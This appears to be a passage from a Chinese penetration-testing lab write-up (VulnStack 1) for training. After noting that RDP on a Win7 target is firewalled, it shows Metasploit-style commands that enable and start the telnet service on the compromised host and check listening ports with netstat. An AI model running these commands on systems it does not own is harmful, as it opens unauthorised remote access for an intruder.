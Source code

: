 成功加入 前面渗透win7的时候就知道远程桌面连接的3389有防火墙保护
尝试其他端口

前面nmap能扫到关闭的telnet 23端口
![img](VulnStack(1)/images/image-11.png)

开启telnet服务:

set COMMAND sc config tlntsvr start= auto
set COMMAND net start telnet

验证:

set COMMAND netstat -ano
![img](VulnStack(1)/images/image-12.png)
